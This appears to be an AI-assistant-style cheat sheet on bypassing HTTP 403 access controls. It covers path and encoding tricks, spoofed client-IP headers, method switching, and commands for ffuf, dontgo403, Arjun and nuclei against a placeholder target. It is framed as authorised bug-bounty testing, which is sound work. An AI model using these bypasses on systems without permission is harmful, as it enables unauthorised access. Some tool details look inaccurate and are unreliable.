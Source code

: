 # 403-Forbidden

Good question 👍 — a **403 Forbidden** response just means “the server understood your request, but refuses to authorize it.”
It doesn’t always mean a vulnerability; sometimes it’s just normal access control (e.g., admin panels, private APIs).

For **security testing in bug bounty or pentesting (with permission!)**, testers often try **403 bypass techniques** to check if misconfigurations allow access. Here are common approaches:

---

## 🔑 403 Bypass Techniques

### 1. **Path Obfuscation Tricks**

Sometimes web servers or WAFs only block exact paths, not variations:

* Add a slash:

  ```
  /admin → /admin/
  ```
* Add a dot:

  ```
  /admin → /admin.
  ```
* Double slashes:

  ```
  /admin → //admin
  ```
* Case changes:

  ```
  /Admin, /ADMIN
  ```
* URL encoding:

  ```
  /admin → /%61dmin
  ```

---

### 2. **HTTP Method Switching**

* If `GET` is blocked, try:

  ```
  POST /admin
  HEAD /admin
  OPTIONS /admin
  ```

---

### 3. **Header Manipulation**

Sometimes adding headers tricks the server or upstream proxy:

* Spoof client IP:

  ```
  X-Forwarded-For: 127.0.0.1
  X-Forwarded-Host: localhost
  X-Original-URL: /admin
  ```
* Common bypass headers:

  ```
  X-Client-IP: 127.0.0.1
  X-Host: localhost
  X-Forwarded-For: yourIP
  ```

---

### 4. **Bypass via Encodings**

* URL double-encoding:

  ```
  /%252e%252e/ (instead of ../)
  ```
* UTF-8 tricks:

  ```
  /adm%C4%B1n   (Turkish “ı” instead of i)
  ```

---

### 5. **Use of Proxies / Alternate Hosts**

* Try accessing via different subdomain:

  ```
  api.target.com/admin
  dev.target.com/admin
  ```
* Use CDN/WAF bypass with direct IP (if real IP found).

---

### 6. **Parameter Pollution**

* Add random query params to bypass WAF rules:

  ```
  /admin?auth=1
  /admin?x=
  ```

---

### 7. **Case: Misconfigured .htaccess / Nginx**

* Try appending file extensions:

  ```
  /admin.php
  /admin.json
  /admin;/ (semicolon trick in Apache)
  ```

---

---

## 🔧 Automation Tools for 403 Bypass

### 1. **ffuf** (Fast Fuzzer)

Super fast tool for fuzzing paths/headers.

```bash
ffuf -u https://target.com/FUZZ -w /usr/share/seclists/Fuzzing/403-bypass.txt
```

* You can fuzz **paths** (slashed, dots, encodings, etc.).
* Can also fuzz headers with `-H`.

---

### 2. **403-bypass-tools**

Open-source tools that try known tricks.

* Example: [t3l3machus/403-bypass](https://github.com/t3l3machus/403-bypass)

```bash
python3 bypass-403.py -u https://target.com/admin
```

This will try headers + encoding automatically.

---

### 3. **dontgo403**

Python tool specifically made for 403 bypass.

```bash
git clone https://github.com/devploit/dontgo403
cd dontgo403
python3 dontgo403.py -u https://target.com/secret
```

* Tries path obfuscation + headers.
* Very effective for quick checks.

---

### 4. **XSStrike / Arjun** (for hidden params)

Sometimes access control is tied to parameters:

```bash
python3 arjun.py -u https://target.com/admin
```

Finds hidden query params → then you fuzz with 403 bypass tricks.

---

### 5. **Nuclei Templates**

Nuclei has ready-made templates for 403 bypass.

```bash
nuclei -u https://target.com -t cves/ -tags 403,bypass
```

---

## ⚡️ Example Workflow (Automated 403 Bypass)

1. **Check real response** with curl:

   ```bash
   curl -i https://target.com/admin
   ```
2. **Run dontgo403**:

   ```bash
   python3 dontgo403.py -u https://target.com/admin
   ```
3. **Run ffuf with wordlists**:

   ```bash
   ffuf -u https://target.com/FUZZ -w /usr/share/seclists/Fuzzing/403-bypass.txt
   ```
4. **Run nuclei with bypass templates**.

---

👉 Do you want me to write you a **bash script** that runs `dontgo403`, `ffuf`, and `nuclei` automatically against a URL and saves results neatly (like `/out/bypass-results.txt`)?

